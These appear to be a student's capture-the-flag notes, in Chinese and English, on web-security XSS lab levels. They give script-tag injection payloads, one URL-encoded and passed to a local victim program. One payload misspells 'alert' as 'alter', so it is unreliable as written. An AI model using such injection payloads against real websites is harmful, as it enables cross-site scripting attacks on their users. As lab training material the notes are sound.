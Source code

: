 那么victim文件又是干什么的呢？

就是检测这个html里面是否有<input type = "text">。

如果有，就返回flag。

所以我们要做的就是写一个input进去。

# 17-XSS-2

the same like the previous one ,but you should post 

```s
<script>alter("PWNED")</script>
```

let's view the source code:

![image-20241110180122494](./02%20Web%20Security.assets/image-20241110180122494.png)

then run the victim to get the flag

# 18-XSS-3

you must pass an url as the argument to invoke the victim program

and the argument "msg" of url should be alert()

and you need to use the url encode

```
$ /challenge/victim "http://challenge.localhost:80?msg=%3Cscript%3Ealert%28%27PWNED%27%29%3C%2Fscript%3E"
```

也就是实现：

```
msg=<script>alert('PWNED')</script>
```
